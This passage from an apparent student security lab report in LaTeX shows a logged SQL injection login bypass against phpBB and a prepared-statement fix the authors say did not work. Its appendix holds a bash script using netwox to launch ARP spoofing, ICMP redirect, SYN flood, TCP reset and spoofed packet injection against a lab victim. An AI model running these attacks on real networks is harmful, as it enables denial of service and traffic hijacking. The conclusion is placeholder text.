[Mon Dec 15 13:17:05 2014] [error] [client 127.0.0.1] SELECT user_id, username, user_password, user_active, user_level, user_login_tries, user_last_login_try\n\t\t\tFROM phpbb_users\n\t\t\tWHERE username = 'alice\\' or \\'1\\'=\\'1', referer: http://www.sqllabmysqlphpbb.com/login.php
\end{lstlisting}
Moreover, the statement handles the case of vulnerable binary strings\cite{shiflett06}. This standard PHP MySQL API was however deprecated in PHP 5 and it is now required to use either MySQLi or PDO APIs. The default MySQL driver was not deprecated for security reasons, but simply because new PHP5 did not want to be shipped with a library not used by everyone.\cite{phpfaq}

\subsubsection{Using prepared statement}
Another way of making strings sanitized is to use so called prepared statements. The syntax of prepared statements looks more like the one of \texttt{printf} method known to C developers. Using this style of forming dynamic SQL queries makes it easier not to forget about escaping parameters because they are automatically escaped.

New PHP MySQL API, called MySQL Improved or simply MySQLi\cite{mysqli} offers API for prepared statement. The code below shows a proof-of-concept of how to change login.php function to use prepared statements. We didn't however change entire PhpBB to use MySQLi, so our change didn't work:

Again we show how to prevent the SQL injection in login.php:
\lstset{
	captionpos=b,
	frame=single,
	language=PHP,
	breaklines=true,
	label=sqladdslash
}
\begin{lstlisting}	

// Assuming $db is object of MySQLi connection
$stmt = mysqli_stmt_init  ( $db);
$row = null;

// Prevent injection
if($prepared =  $stmt->prepare("SELECT user_id, username, user_password, user_active, user_level, user_login_tries, user_last_login_try FROM " . USERS_TABLE . "WHERE username = ?"))
{
	$stmt->bind_param("s", $username);
	$stmt->execute();
	$row = $stmt->fetch();
	$stmt->close();
} else {
	message_die(GENERAL_ERROR, 'Error in obtaining userdata', '', __LINE__, __FILE__, "");
}
\end{lstlisting}

Because \texttt{\$db} was not of type MySQLi, our code caused the following error:\\\\

\includegraphics[width=.95\textwidth]{gfx/sql/mysqli.png}
\section{Conclusions}

Lorem ipsum
\vfill
\bibliographystyle{plain}
\bibliography{ref}

\newpage
\begin{appendices}



\section{Shell script for performing attack\label{script1}}

\lstset{
	captionpos=b,
	frame=single,
	language=Bash,
	breaklines=true,
	caption="Script for performing ARP ICMP and SYN attacks",
	label=parta:script
}
\begin{lstlisting}

#!/bin/bash
sudo -v

echo "Type 1 for ARP; 2 for ICMP; 3 for SYNflood; 4 for RST"
read answer

VICTIM_IP='10.0.2.4'
VICTIM_MAC='08:00:27:a6:eb:87'

ATTACKER_IP='10.0.2.6'
GATEWAY='10.0.2.1'
ATTACKER_MAC='08:00:27:ee:0d:0f'

PORT=23
INT='eth7'

ATT=netwox

# Netwox tool numbers
ARP_TOOL=33
SYN_TOOL=76
ICMP_TOOL=86
RST_TOOL=78

echo "Victim ip is " $VICTIM_IP
echo "Victim mac is " $VICTIM_MAC
echo "Gateway is" $GATEWAY
echo "Attacker IP is" $ATTACKER_IP
echo "Attacker MAC is" $ATTACKER_MAC

case $answer in
5)

echo '40 --ip4-dontfrag --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-src 10.0.2.5 --ip4-dst 10.0.2.4 --ip4-opt "" --tcp-src 51296 --tcp-dst 23 --tcp-seqnum 906520802 --tcp-acknum 937587335 --tcp-ack --tcp-psh --tcp-window 6912 --tcp-opt "" --tcp-data "7077640d00" --spoofip "best"'

echo 'netwox 40 --ip4-dontfrag --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-src 10.0.2.5 --ip4-dst 10.0.2.4 --ip4-opt "" --tcp-src 51296 --tcp-dst 23 --tcp-seqnum 906520807 --tcp-acknum 937587340 --tcp-ack --tcp-psh --tcp-window 6912 --tcp-opt "" --spoofip "best"'


;;
4)
echo 'sudo' $ATT $RST_TOOL '-d' $INT '-i' $VICTIM_IP
sudo $ATT $RST_TOOL -d $INT -i $VICTIM_IP
;;
3)
echo 'sudo' $ATT $SYN_TOOL '-i' $VICTIM_IP '-p' $PORT
echo 'SYN Flood on machine at address' $VICTIM_IP 'on port' $PORT
sudo $ATT $SYN_TOOL -i $VICTIM_IP -p $PORT
;;

2)
echo 'IMCP redirection attack:'
echo 'sudo' $ATT $ICMP_TOOL '-d' $INT '-g' $ATTACKER_IP '-c' 0 '-i' $VICTIM_IP
sudo $ATT $ICMP_TOOL -d $INT -g $ATTACKER_IP -c 5 -i $VICTIM_IP 
;;
1)
sudo $ATT $ARP_TOOL -d $INT -b $VICTIM_MAC -g $GATEWAY -h $VICTIM_MAC -i $ATTACKER_IP
;;
*)
echo "Unknown option"
esac

\end{lstlisting}


\end{appendices}

\end{document}
